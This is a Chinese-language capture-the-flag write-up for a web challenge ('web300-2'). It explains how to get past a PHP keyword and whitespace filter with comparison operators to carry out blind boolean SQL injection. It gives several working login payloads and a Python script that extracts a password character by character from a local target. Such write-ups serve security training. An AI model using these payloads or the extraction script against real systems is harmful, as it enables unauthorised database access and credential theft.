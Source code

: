### web300-2  writeUp 

-----------------------------

此题目很有意思,关键是是sql注入,最后的命令执行,很简单送分题

主要sql注入的过滤函数:

```php
function sql_clean($str){
		if(is_array($str)){
			echo "<script> alert('not array!!@_@');parent.location.href='index.php'; </script>";exit;
		}
		$filter = "/ |\*|#|,|union|like|regexp|for|and|or|file|--|\||`|&|".urldecode('%09')."|".urldecode("%0a")."|".urldecode("%0b")."|".urldecode('%0c')."|".urldecode('%0d')."|".urldecode('%a0')."/i";  
		
        //由于在mysql中认为 %a0 也是空格,所以这里也需要过滤, 
		//在这里做了修改,添加 %a0

		if(preg_match($filter,$str)){
			echo "<script> alert('illegal character!!@_@');parent.location.href='index.php'; </script>";exit;
		}else if(strrpos($str,urldecode("%00"))){
			echo "<script> alert('illegal character!!@_@');parent.location.href='index.php'; </script>";exit;
		}
		return $this->str=$str;
	}
```
感觉啥都过滤了啊,怎么玩?:


但是仔细想想,我们好像还有操作符啊:
```
!,!=,=,+,-,^,%
```
我们是否可以通过这些操作符构造出来可以的注入判断语句呢?

看图:
![1.png](./images/1.png)

为啥会这样呢?

先看第一个语句:
```sql
select user from mysql.user where user=''=0
```
因为  where user='' 是返回0,然后0=0就会返回1,所有返回了所有的用户
第二条语句同样的道理.
所以我们我们就用`!=`号来构造判断条件,从数据库中读取数据
```
select  user  from mysql.user where user=''!=(mid((user)from(-1))='t')
```
如果 (mid((user)from(-1))='t') 返回的是0,那么整个判断就会返回false,如果是1,我们就查到数据了.

所以我们可以POST提交:
```
uname='!=(mid((passwd)from(-1))='e')='1&passwd=1
```
这样一位一位猜出来passwd
python代码实现:
```python
#!/usr/bin/python
# -*-  coding:utf-8 -*- 
import requests 
url = "http://127.0.0.1/web200/login.php"

randstr = "0123456789abcdef"
remark=""
proxy = {"http":"127.0.0.1:8080"}
for j in range(1,33):
    for i in randstr:
        passwd = i+remark
        uname = "'!=(mid((passwd)from(-{j}))='{passwd}')='1".format(j=str(j),passwd=passwd)
        data = {"uname":uname,"passwd":"ddd"}
        # print uname
        res = requests.post(url,data)
        if "password error!!" in res.text:
            remark = passwd
            print remark
            break
```
下面说几个别的可用的payload:
原理和上面差不多:
```
select  user  from mysql.user where user=''%( mid((user)from(-1))='t')='1';
-> uname='%(mid((passwd)from(-1))='e')='1&passwd=1
```

```
select  user  from mysql.user where user=''^!( mid((user)from(-1))='t')='1' ;
-> uname='^!(mid((passwd)from(-1))='e')='1&passwd=1
```

```
select  user  from mysql.user where user=''+!( mid((user)from(-1))='t')='1';
->  uname='%2b!(mid((passwd)from(-1))='e')='1&passwd=1
注意加号用url编码 
```

```
select  user  from mysql.user where user=''-!( mid((user)from(-1))='t')='1';
-> uname='%2d!(mid((passwd)from(-1))='e')='1&passwd=1
```
















